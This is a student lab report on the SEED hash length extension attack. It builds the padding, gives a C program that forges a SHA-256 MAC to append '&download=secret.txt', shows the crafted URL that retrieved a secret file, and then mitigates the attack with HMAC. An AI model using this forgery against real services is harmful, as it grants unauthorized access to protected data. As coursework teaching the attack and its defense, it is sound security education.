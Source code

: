 # Report 3: Hash Length Extension Attack Lab

In this lab we will explore how we can compromise a Mac by expanding an intercepted message without knowing the key.
For this we will first have to set up the lab environment. We first download the zip and build the **docker image**. Then we have to change the **/etc/hosts** file and add a new address to it, that being:

```sh
10.9.0.80 www.seedlab-hashlen.com
```

With this we are finally ready to start the lab.

## Task 1: Send Request to List Files

In order for the website to list all it's files we need to craft a request in the following way:

```sh
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```
Firstly the **lstcmd** needs the value of **1** to execute this type of request and the link above is also missing 3 arguments: **myname**, **uid** and **mac**
For this lab we will be using the name **Eduardo** and we will choose a uid from the **key.txt** in the LabHome directory. We see what is contained in the file in the image bellow:

![Output of key.txt](images/image1.PNG)

For this lab we chose the uid of **1005** which has a corresponding key of **xciujk**. And with those 3 values we can calculate the mac for the user **Eduardo** with the uid of **1005** by executing the command bellow:

```sh
$ echo -n "xciujk:myname=Eduardo&uid=1005&lstcmd=1" | sha256sum
```

This command results in the following:

![Hash created using the message "xciujk:myname=Eduardo&uid=1005&lstcmd=1"](images/image2.PNG)

As we can see the **mac** obtained is: **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**.
Now, equiped with the 3 arguments, we can craft the completed URL.

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f
```

When we sen it using the browser we obtain the following:

![The resulting web page when using the url](images/image3.PNG)

The image shoes that our **MAC** is valid and shows us the two files in the directory, those being **secret.txt** and **key.txt**!

## Task 2: Create Padding

Now that we know how the website works, it is time to try to attack it! To do that we must first understand how padding is calculated for a one-way hash.
The block size of **SHA 256**is 64 bytes, so a message will be padded in blocks of 64 bytes during the hash calculation. The padding consists of one byte of **\x80** folowed by many 0s and finally an **8 byte** length field with the length of the message hashed.
So, our message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, consists of **39 bytes**. So the length of our padding will be **64-39= 25 bytes**. The length of our message will be **39*8=312 bytes**. **312 bytes** in hex is **\x01\x38**. So our Padding wil be:

```c
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x38"
``` 
With that done we can begin with the next task.

## Task 3: The Length Extension Attack

We can finally start the attack! For this we will need 2 things: a MAC for a valid request and the size of the MAC key. 
In **Task 1** we calculated the MAC for the message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, that being **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**. We also know the size of the key **xciujk** that being **6**!
With this we can add a **new message** to the end of the padding and create a valid MAC without knowing the key!
For that we will use a program called **length_ext.c** that can create a new valid **MAC** with our custom message added at the end!
The program is written bellow:

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xee73e3a3);
    c.h[1] = htole32(0xdfc4f7dd);
    c.h[2] = htole32(0x24bfa90a);
    c.h[3] = htole32(0x766efc79);
    c.h[4] = htole32(0xd6d9f1df);
    c.h[5] = htole32(0x31e7c2bb);
    c.h[6] = htole32(0x7c1c7340);
    c.h[7] = htole32(0x4c669d3f);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
``` 
In the program above we write our valid **MAC** in **c** and we add our extra message, that being **&download=secret.txt** that should allow us to download the website's secret file!
We can compile the program using the following command:

```sh
$ gcc length_ext.c -o length_ext -lcrypto
```
Running the code results in the following image:

![Generation of our New MAC](images/image4.PNG)

So the new MAC is: **b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb**! With this we can finally craft our url and see if it works. The following is the URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%38&download=secret.txt&mac=b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb
```

When we input the following URL in the browser we get the following:

![Our URL was successful in attacking the website](images/image5.PNG)

It worked! The **secret.txt** was accessed, but how did it work? What we did was take a legitimate MAC and calculated its padding. We then add the padding to the hash and simply add our new data in hashed form to the end of it, this way we create a legitimate MAC with our data without knowing the key! This happened because **SHA 256** does not hide the length of the original message making it possible to find the padding and attach custum data to the end of the hash.

## Task 4: Attack Mitigation using HMAC

Now that we have done the attack, how can we protect the website from it?
The answer is in using **HMAC**. Firstly we will modify the server's program and use python's **hmac** to implmente a more secure **verify_mac()**. We can implement the code by adding the following lines to **verify_mac()** in lab.py:

```py
real_mac = hmac.new(bytearray(key.encode(´'utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
``` 

This way we are creating a HMAC for the uid keys, just like in **Task 1** we will generate a MAC to list all the files on the website's directory. But we will have to use a dedicated program as to generate a HMAC is a bit more complex than just using **SHA 256**. The following is a dedicated program to generate an **HMAC** for our uid key of **xciujk**:

```py
import hmac
import hashlib
key='xciujk'
message='myname=Eduardo&uid=1005&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
print(mac)
``` 

The program returns the following:

![Generating our HMAC for our message](images/image6.PNG)

The HMAC generated is: **e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189**! We can now craft our URL just like in **Task 1**. The following is the new URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189
```

When we access the url this is what we find:

![The Website now works with HMAC](images/image7.PNG)

So we made the site use **HMAC**! But why is this implementation more secure?
**HMAC** utilizes a secret key to derive two different keys: the inner key and the outer key. These keys are derived using a specific algorithmic process, usually involving XOR operations with predefined constants.
HMAC applies the hashing process twice. Initially, it takes the message and the inner key, concatenates them, and then computes the hash of this concatenated value. Subsequently, it hashes the result of the first hash operation concatenated with the outer key.
This two-step process makes HMAC immune to length extension attacks. In such attacks, an adversary attempts to append data to the original message without knowing the secret key. However, since HMAC incorporates the secret key into both the key derivation and the hashing process, it's practically impossible for an attacker to generate a valid HMAC for a modified message without the secret key. SO the website is immune to hash length attacks while using  **HMAC**! 

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094
